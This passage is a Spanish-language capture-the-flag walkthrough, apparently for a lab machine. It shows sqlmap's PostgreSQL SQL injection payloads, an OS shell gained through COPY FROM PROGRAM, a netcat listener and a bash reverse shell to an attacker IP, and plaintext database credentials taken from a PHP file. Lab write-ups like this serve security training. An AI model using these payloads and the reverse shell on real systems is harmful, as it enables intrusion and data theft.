 ```shell
    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=test' AND 8943=CAST((CHR(113)||CHR(112)||CHR(118)||CHR(118)||CHR(113))||(SELECT (CASE WHEN (8943=8943) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(106)||CHR(107)||CHR(112)||CHR(113)) AS NUMERIC)-- VqFG

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=test';SELECT PG_SLEEP(5)--

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: search=test' AND 4912=(SELECT 4912 FROM PG_SLEEP(5))-- HLuW
---
[15:13:22] [INFO] the back-end DBMS is PostgreSQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: PostgreSQL
[15:13:30] [INFO] fingerprinting the back-end DBMS operating system
[15:13:32] [INFO] the back-end DBMS operating system is Linux
[15:13:33] [INFO] testing if current user is DBA
[15:13:33] [INFO] retrieved: '1'
[15:13:34] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[15:13:34] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
```

🗹 Ponerse en escucha en la máquina atacante:

```shell
nc -lnvp 1234
```

🗹 Lanzar la reverse shell desde la shell obtenida con `sqlmap`:

```shell
os-shell> bash -c "bash -i >& /dev/tcp/10.10.15.8/1234 0>&1"
do you want to retrieve the command standard output? [Y/n/a] 

[15:15:49] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
```

## User flag

🗹 La user flag se encuentra en el directorio `/var/lib/postgresql`:

```shell
cat /var/lib/postgresql/user.txt
```

🗹 Mirar el archivo `dashboard.php` que se encuentra en el directorio `/var/www/html` en el que se encuentran credenciales para acceeder a la base de datos:

```shell
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```
